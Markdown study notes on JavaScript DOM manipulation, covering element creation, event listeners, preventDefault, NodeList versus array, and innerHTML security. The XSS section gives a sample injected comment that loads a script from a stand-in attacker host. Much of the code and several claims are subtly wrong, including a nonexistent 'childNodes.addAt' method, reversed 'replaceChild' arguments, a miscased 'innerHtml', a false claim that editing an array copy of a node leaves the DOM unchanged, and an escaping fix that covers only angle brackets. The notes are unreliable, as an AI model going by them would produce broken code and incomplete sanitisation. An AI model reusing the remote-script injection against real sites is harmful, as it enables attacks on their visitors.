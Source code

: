 # DOM manipulation

Content

 - [use JavaScript to create an HTML element](#how-can-you-use-javascript-to-create-an-html-element-and-then-add-it-to-your-webpage)
 - [`onClick()` vs `handler`](#onclick-vs-handler)
 - [add a `<li>` element to the start of a `<ul>`](#how-would-you-add-a-li-element-to-the-start-of-a-ul)
 - [JavaScript Events](#what-is-a-javascript-event)
 - [event.preventDefault()](what-does-eventpreventdefault-do-and-why-might-you-use-it)
 - [`NodeList` vs `Arrays`](#what-is-a-nodelist-how-is-it-different-from-an-array)
 - [Cross-site scripting (XSS)](#security-concerns-around-elementinnerhtml-what-to-use-instead)

## How can you use JavaScript to create an HTML element and then add it to your webpage?

To create an HTML elelment in JS we can use the function `Document.createElement()`

    var button = document.createElement('BUTTON');

and to create a Text in JS we use the function `Document.createTextNode()`

    var text = document.createTextNode("CLICK ME");

To append a text to an element in JS we use the function `appendChild()`

	button.appendChild(text);

To replace an element in JS

 - `target.replaceWith(newElement);` (ES5+)
 - `target.parentNode.replaceChild(target, newElement)`

## `onClick()` vs `handler`

Using `addEventListener` allows us to add unlimited events.
	
    <button id="btnTalker" onclick="say('Hi from dom\n')" onclick="say('Hi from dom,, again\n')"></button>

> `Hi from dom,, again`

	getElementById('btnTalker').addEventListener('click', function() {say('Hi from js\n')});
	getElementById('btnTalker').addEventListener('click', function() {say('Hi from js,, again\n')});

> `Hi from js`  
> `Hi from js,, again`

## How would you add a `<li>` element to the start of a `<ul>`?

	ulElement.childNodes.addAt(0, liElement);

## What is a JavaScript Event?
HTML events are **things** that happen to HTML elements.  
When JavaScript is used in HTML pages, JavaScript can **react** on these events.

An HTML event can be something the browser does, or something a user does.

Some examples of HTML events:

 - An HTML web page has finished loading.
 - An HTML input field was changed.
 - An HTML button was clicked.

## What does `event.preventDefault()` do and why might you use it?

Some HTML elements has built-in actions

 - `<form>` reloads the page when `sumbit` action is fired.
 - `<a>` navigates to a link when `click` action is fired.

`event.preventDefault()` disables the built-in actions.

## What is a NodeList? How is it different from an Array?

A NodeList is a collection of document nodes.

`NodeList`s are live lists, meaning that if elements are removed or added to the DOM, the list updates automatically.

	var nodeList = document.getElementsByClassName('myClassName'); //returns a nodeList
	var arr = [];
	for(let i = 0; i<nodeList.length;i++)
		arr.push(nodeList[i]);                                 //returns an array
	nodeList[0].innerHtml = '<b>This is changes</b>';              //Changes DOM
	arr[0].innerHtml = '<b>This is changes</b>';                   //Doesn't affect DOM

## Security concerns around `Element.innerHTML`. What to use instead?

Using `innerHTML` may leed to `Cross-site scripting (XSS)`.

Consider the following input of an `innerHTML` statement is a comment in your online blog:

    let x = document.createElement('script');
    x.src = 'http://hacker-website.com/malicious-script.js';
    document.childNodes.addAt(0, src);
    alert('you are hacked');

This may lead to run harmful scripts on your device.

### How to avoid?

You can use `innerText` instead, or you can use

    content = content.replace(/</g, "&lt;").replace(/>/g, "&gt;");
    el.innerHTML = content;
